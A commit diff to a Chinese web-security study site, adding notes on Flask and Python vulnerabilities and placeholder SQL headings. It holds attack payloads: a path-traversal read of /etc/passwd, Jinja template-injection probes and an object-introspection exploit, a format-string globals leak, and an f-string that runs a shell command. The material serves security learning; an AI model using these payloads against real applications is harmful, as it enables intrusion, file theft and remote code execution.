

Before and after one commit to LyleMi/Learn-Web-Hacking, a Sphinx documentation site: the page built from web-security/source/python.rst, in a window 1280 px wide. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
update-python

```diff
--- a/web-security/source/python.rst
+++ b/web-security/source/python.rst
@@ -1,4 +1,23 @@
 Python漏洞
 ================================
 
-模版注入
+flask
+--------------------------------
+
+- 自己解析静态文件=>任意文件读取 ../ * n + /etc/passwd
+- 模版注入rce
+::
+
+    PoC: {{ 7*7 }}
+    Exp: {{''.__class__.__mro__[2].__subclasses__()}}
+
+- 获取app.secret_key
+    - 可以RCE
+- 格式化字符串
+::
+
+    "welcome {user}".format(user=user)
+    user = {0.__class__.__init__.__globals__}
+
+    python3.6
+    python3 -c "f'''{__import__('os').system('id')}'''"
--- a/web-security/source/sql.rst
+++ b/web-security/source/sql.rst
@@ -121,11 +121,17 @@ Fuzz
     ascii(subtring(str,pos,length)) & 32 == 1
 
 
+NoSQL注入
+--------------------------------
+TODO
+
+
 SQL注入小技巧
 --------------------------------
 
 双查询注入
 >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
+TODO
 
 宽字节注入
 >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
```
